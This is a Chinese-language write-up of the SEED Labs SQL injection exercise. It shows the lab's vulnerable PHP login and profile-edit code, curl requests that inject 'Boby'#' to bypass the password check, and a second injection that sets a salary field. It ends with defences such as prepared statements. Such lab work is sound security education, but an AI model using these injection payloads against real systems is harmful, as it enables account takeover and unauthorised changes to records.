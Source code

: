 # 
#### sql注入之登陆

##### 上帝视角
可以看到登陆时候，php操作mysql时候的sql语句，是通过查询用户输入数据name和password来判断是否有这个用户并登陆。
```
shan@shan-GV62-8RC:~/下载/Labsetup/image_www/Code$ cat unsafe_home.php

...
      // create a connection
      $conn = getDB();
      // Sql query to authenticate the user
      $sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= '$input_uname' and Password='$hashed_pwd'";
...

```

##### 攻击

![](/web-security/img/sql-2.png)


登陆一下，看到接口url是`http://www.seed-server.com/unsafe_home.php?username=Boby&Password=seedboby`GET请求。  

下面通过curl直接调用攻击  
```
curl 'http://www.seed-server.com/unsafe_home.php?username=Boby&Password=aaa'

...
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      </div></nav><div class='container text-center'><div class='alert alert-danger'>The account information your provide does not exist.<br></div><a href='index.html'>Go back</a></div>
...
```
用不正确的账号密码没登陆成功`The account information your provide does not exist.`。

如果在username的Boby后面跟一个'(闭合字符串)注释符号(# 或 --)，那么这个sql语句就变成了只从数据库判断是否有这个name的用户并不会判断密码。  
那么sql 语句就变成了`SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password FROM credential WHERE name= 'Boby'#' and Password='aaa'`

```
shan@shan-GV62-8RC:~$ curl 'http://www.seed-server.com/unsafe_home.php?username=Boby%27%23&Password=aaa'

...
      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container col-lg-4 col-lg-offset-4 text-center'><br><h1><b> Boby Profile </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Key</th><th scope='col'>Value</th></tr></thead><tr><th scope='row'>Employee ID</th><td>20000</td></tr><tr><th scope='row'>Salary</th><td>30000</td></tr><tr><th scope='row'>Birth</th><td>4/20</td></tr><tr><th scope='row'>SSN</th><td>10213352</td></tr><tr><th scope='row'>NickName</th><td></td></tr><tr><th scope='row'>Email</th><td></td></tr><tr><th scope='row'>Address</th><td></td></tr><tr><th scope='row'>Phone Number</th><td></td></tr></table>      <br><br>
...
```
可以看到登陆成功。

!!! note
    在HTTP发送请求后，它附加的字段需要被编码。所以 '=%27 #=%23 空格=%20


#### sql注入之修改工资

先通过编辑页面编辑并找到url是`http://www.seed-server.com/unsafe_edit_backend.php?NickName=xiaohon&Email=aaa%40qq.com&Address=none&PhoneNumber=13811111111&Password=123456`
![](/web-security/img/sql-3.png)
![](/web-security/img/sql-4.png)


##### 上帝视角
```
shan@shan-GV62-8RC:~/下载/Labsetup/image_www/Code$ cat unsafe_edit_backend.php

...
  if($input_pwd!=''){
    // In case password field is not empty.
    $hashed_pwd = sha1($input_pwd);
    //Update the password stored in the session.
    $_SESSION['pwd']=$hashed_pwd;
    $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  }else{
    // if passowrd field is empty.
    $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
  }
  $conn->query($sql);
...
```

##### 攻击
我们只要在任意一个用户输入的字段中在插入一个工资字段Salary  

比如 NickName=xiaohon',Salary='888  
那么sql语句就变成了`UPDATE credential SET nickname='xiaohon',Salary='888',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"`

注意这个修改接口验证了cookie和session，所以还是想用curl的话需要在请求头带上cookie  
```
curl 'http://www.seed-server.com/unsafe_edit_backend.php?NickName=xiaohon%27%2CSalary%3D%27888&Email=aaa%40qq.com&Address=none&PhoneNumber=13811111111&Password=123456' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.106 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://www.seed-server.com/unsafe_edit_frontend.php' \
  -H 'Accept-Language: zh-CN,zh;q=0.9' \
  -H 'Cookie: PHPSESSID=ma8nvssnsq9u9d24fgi54lvts4' \
  --compressed \
  --insecure
```
通过web页面可以看到成功修改了工资

!!! note
    编码 ,=%2C  等号=%3D


#### 根本原因
![](/web-security/img/sql-5.png)
跨站脚本攻击、system()函数攻击、格式化字符串攻击、sql注入攻击根本原因都是数据和代码混在一起。

#### 防御措施
1.过滤代码: 处理用户提交的数据，过滤掉可能会被mysql执行的代码字符  
2.把代码变成数据: 对特殊字符编码，告诉mysql解析器把编码后的字符当作数据而非代码  
3.把代码和数据分开: 比如预处理sql语句，它会先发送一个sql模板到数据库而非发送完成的sql语句。  





